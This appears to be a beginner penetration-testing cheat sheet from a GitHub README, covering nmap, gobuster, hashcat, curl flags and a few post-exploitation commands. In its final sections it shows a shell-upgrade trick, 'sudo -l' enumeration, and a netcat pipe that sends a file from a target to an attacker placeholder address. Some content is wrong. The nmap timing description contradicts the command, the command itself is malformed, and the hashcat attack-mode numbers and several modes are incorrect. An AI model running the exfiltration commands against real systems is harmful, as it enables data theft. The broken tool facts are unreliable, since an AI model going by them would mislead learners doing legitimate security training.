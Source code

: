 # Penetration Testing Basics

## Reconnaissance

### Active Reconnaissance with Nmap

Nmap (Network Mapper) is a powerful tool used to discover hosts and services on a computer network. It is commonly used during penetration testing for port scanning, service detection, and operating system identification.

#### Common Nmap Options:
- `-sS`: Performs a stealthy SYN scan.
- `-sV`: Detects service versions.
- `-O`: Detects the operating system.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-T2`: Sets a "polite" timing template to reduce network congestion or detection.
- `-p-`: Scans all 65,535 TCP ports.
- `target_ip`: Replace this with the IP address of your target.

#### Full Nmap Command:
```bash
sudo nmap -sS -sV --script=default,vuln -p- -T5 <ip target_ip>
```

### Gobuster Command
DirBuster is a powerful tool for brute-forcing directories and file names on a web server to enumerate hidden resources
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
In Kali there is a GUI version called DirBuster
![image](https://github.com/user-attachments/assets/cbd21222-0f45-47da-bc48-99025523a4c5)


#### Hashcat Usage Guide

Hashcat is a powerful password cracking tool that supports multiple hash algorithms and attack modes. This guide covers the essential options and their explanations to help you get started.

#### Basic Syntax

```bash
hashcat -m <hash_mode> -a <attack_mode> <hash_file> <wordlist>
```
#### Hashcat Attack Modes:

- `-a 0`: **Straight** (Dictionary attack)  
  Tries each word in the wordlist.  
  Example: `hashcat -m 0 -a 0 hash.txt rockyou.txt`

- `-a 1`: **Combination**  
  Combines two wordlists.  
  Example: `hashcat -m 0 -a 1 hash.txt wordlist1.txt wordlist2.txt`

- `-a 2`: **Mask**  
  Generates passwords based on a mask pattern.  
  Example: `hashcat -m 0 -a 2 hash.txt ?l?l?d?d`

- `-a 3`: **Brute-force**  
  Tries all combinations of a given character set.  
  Example: `hashcat -m 0 -a 3 hash.txt ?a?a?a?a`

- `-a 4`: **Toggle-case**  
  Tries passwords with different case variations.  
  Example: `hashcat -m 0 -a 4 hash.txt`

- `-a 5`: **Hybrid Mask + Wordlist**  
  Combines a wordlist and a mask.  
  Example: `hashcat -m 0 -a 5 hash.txt wordlist.txt ?d?d`

#### Common Hashcat Hash Modes:

- `-m 0`: MD5  
- `-m 100`: SHA1  
- `-m 1400`: SHA256  
- `-m 1700`: SHA512  
- `-m 3000`: LM  


## Useful Curl Options

### Basic Usage
#### Silent Mode and Debugging
- `-s`: Silent mode. Suppresses the progress meter and error messages.
- `-v`: Verbose mode. Provides detailed information about the request and response.

#### Proxy Support
- `-x <proxy>`: Specifies a proxy to use for the request. Example: `-x http://proxy.example.com:8080`.

#### Custom Headers and Data
- `-H <header>`: Adds a custom header to the request. Example: `-H "Authorization: Bearer <token>"`.
- `-d <data>`: Sends data in a POST request. Example: `-d "param=value"`.

### Adding Cookies
- `-b <data|filename>`: Sends cookies with the request. Example:
  - Inline cookies: `-b "name=value; name2=value2"`
  - From a file: `-b cookies.txt`
- `-c <filename>`: Saves cookies to a file. Example: `-c cookies.txt`.


#### HTTP Method Specification
- `-X <method>`: Specifies the HTTP method to use. Example: `-X POST`.

#### Output Handling
- `-o <file>`: Saves output to a file instead of standard output. Example: `-o response.txt`.
- `-O`: Saves the file with the same name as the remote file.

#### SSL/TLS Options
- `-k`: Ignores SSL certificate errors.

#### Redirects
- `-L`: Follows redirects automatically.

#### Authentication
- `-u <user:password>`: Supplies credentials for basic authentication.

## Exploit

#### Useful commands:

- `cat /etc/os-release `: **OS version**
- `script /dev/null -c /bin/bash`: **Get a bash shell**
- `sudo -l`: **List our commands you can run as root**



## Hands on Objectives

#### Useful commands:
using scp to transfer files
- `scp <file> character@10.10.14.60:/path/to/destination/`
- Local Machine: `nc -lvnp <PORT> >` Target Machine: `cat '<filename>' | nc <YOURIPADDRESS> <PORT>`
